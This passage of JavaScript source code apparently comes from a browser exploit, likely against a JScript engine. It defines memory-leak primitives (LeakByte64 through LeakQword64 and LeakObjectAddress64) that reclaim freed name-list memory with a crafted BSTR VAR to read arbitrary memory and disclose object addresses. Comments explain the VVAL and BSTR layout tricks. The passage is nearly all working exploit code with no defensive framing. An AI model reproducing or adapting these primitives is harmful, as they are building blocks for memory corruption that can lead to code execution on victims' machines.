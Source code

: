         return String.fromCharCode.apply(null, CharCodes);
    }

    function LeakByte64(Address) {
        ReClaimNameList(0, CreateVar64(0x8, Address.low + 2, Address.high, 0, 0)); // +2 for BSTR length adjustment (only a WORD at a time can be cleanly read despite being a 32-bit field)
        return (MutableVar.length >> 15) & 0xff; // Shift to align and get the byte.
    }

    function LeakWord64(Address) {
        ReClaimNameList(0, CreateVar64(0x8, Address.low + 2, Address.high, 0, 0)); // +2 for BSTR length adjustment (only a WORD at a time can be cleanly read despite being a 32-bit field)
        return ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
    }

    function LeakDword64(Address) {
        ReClaimNameList(0, CreateVar64(0x8, Address.low + 2, Address.high, 0, 0)); // +2 for BSTR length adjustment (only a WORD at a time can be cleanly read despite being a 32-bit field)
        var LowWord = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        ReClaimNameList(0, CreateVar64(0x8, Address.low + 4, Address.high, 0, 0)); // +4 for BSTR length adjustment (only a WORD at a time can be cleanly read despite being a 32-bit field)
        var HighWord = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        return LowWord + (HighWord << 16);
    }

    function LeakQword64(Address) {
        ReClaimNameList(0, CreateVar64(0x8, Address.low + 2, Address.high, 0, 0));
        var LowLow = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        ReClaimNameList(0, CreateVar64(0x8, Address.low + 4, Address.high, 0, 0));
        var LowHigh = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        ReClaimNameList(0, CreateVar64(0x8, Address.low + 6, Address.high, 0, 0));
        var HighLow = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        ReClaimNameList(0, CreateVar64(0x8, Address.low + 8, Address.high, 0, 0));
        var HighHigh = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        return MakeQword(HighLow + (HighHigh << 16), LowLow + (LowHigh << 16));
    }

    function LeakObjectAddress64(ObjVarAddress, ObjVarValue) { // This function does not always work, there are some edge cases. For example if a BSTR is declared var A = "123"; it works fine. However, var A = "1"; A += "23"; resuls in multiple layers of VARs referencing VARs and this function will no longer get the actual BSTR address.
        ReClaimNameList(ObjVarValue, CreateVar64(0x8, ObjVarAddress.low + 8 + 2, ObjVarAddress.high, 0, 0));
        var LowLow = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        ReClaimNameList(ObjVarValue, CreateVar64(0x8, ObjVarAddress.low + 8 + 4, ObjVarAddress.high, 0, 0));
        var LowHigh = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        ReClaimNameList(ObjVarValue, CreateVar64(0x8, ObjVarAddress.low + 8 + 6, ObjVarAddress.high, 0, 0));
        var HighLow = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        ReClaimNameList(ObjVarValue, CreateVar64(0x8, ObjVarAddress.low + 8 + 8, ObjVarAddress.high, 0, 0));
        var HighHigh = ((MutableVar.length >> 15) & 0xff) + (((MutableVar.length >> 23) & 0xff) << 8);
        var DerefObjVarAddress = MakeQword(HighLow + (HighHigh << 16), LowLow + (LowHigh << 16) + 8);
        return LeakQword64(DerefObjVarAddress); // The concept here is to turn the property name (the mutable var) into a BSTR VAR pointing at its own VVAL (which starts with another, real VAR). The real VAR can be set dynamically to the address of the desired object. So there are two stages: first to read the object pointer out of the VAR within the final VVAL, and then to leak the object pointer of the VAR it is pointing to (skipping +8 over its Type field)
    }
